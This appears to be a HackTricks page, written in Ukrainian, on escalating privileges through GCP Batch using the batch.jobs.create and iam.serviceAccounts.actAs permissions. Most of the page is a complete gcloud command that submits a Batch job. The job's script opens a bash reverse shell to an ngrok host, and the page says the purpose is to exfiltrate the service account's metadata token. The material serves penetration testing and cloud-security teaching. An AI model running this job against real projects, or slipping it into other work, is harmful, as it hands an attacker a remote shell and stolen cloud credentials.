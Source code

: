 # GCP - Batch Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Batch

Основна інформація:

{{#ref}}
../gcp-services/gcp-batch-enum.md
{{#endref}}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Можливо створити пакетне завдання, отримати зворотний шелл та ексфільтрувати токен метаданих SA (за замовчуванням обліковий запис служби обчислень).
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
{{#include ../../../banners/hacktricks-training.md}}
